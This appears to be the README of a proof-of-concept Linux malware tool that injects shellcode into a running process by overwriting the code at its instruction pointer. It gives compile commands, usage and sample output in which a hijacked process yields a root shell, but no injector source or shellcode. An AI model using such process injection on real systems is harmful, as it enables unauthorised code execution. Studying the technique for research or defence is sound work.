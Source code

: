 # memory-injector
A PoC Linux malware to inject shellcode into a running process, and execute on next instruction

# Explanation
This tool finds a process, and reads it's registers. The next instruction location is stored in the RIP register, the address of which will be executed next.
The `inject` binary, finds a process you supply, reads it's next RIP location, and injects the shellcode provided into the address.
On next instruction execution, the process will read RIP and therefore fetch your shellcode to execute.

# Compile
```bash
gcc hello.c -o hello
gcc inject.c -o inject
```

# Example
```
Usage: $ ./inject -p [PID]
Or   : $ ./inject -n [PROCESS NAME]
```

```
# [Terminal 1]

root@my-pc# ./hello
Hello, world! (Press enter to continue forever!)
Hello, world! (Press enter to continue forever!)
Hello, world! (Press enter to continue forever!)
...
```

```
# [Terminal 2]
root@my-pc# ./inject -n hello
Searching process information for 'hello'...
Injecting into PID 72743 [./hello]
64 bit system detected - using x86_64 shellcode
Attached to PID 72743
Enumerated current registers (RIP -> 0x00007F4A6FCCA0ED)
Injected byte(s) 046
Detaching from PID 72743
```

```
# [Terminal 1]
Hello, world! (Press enter to continue forever!)
# whoami
root
# echo pwned
pwned
```
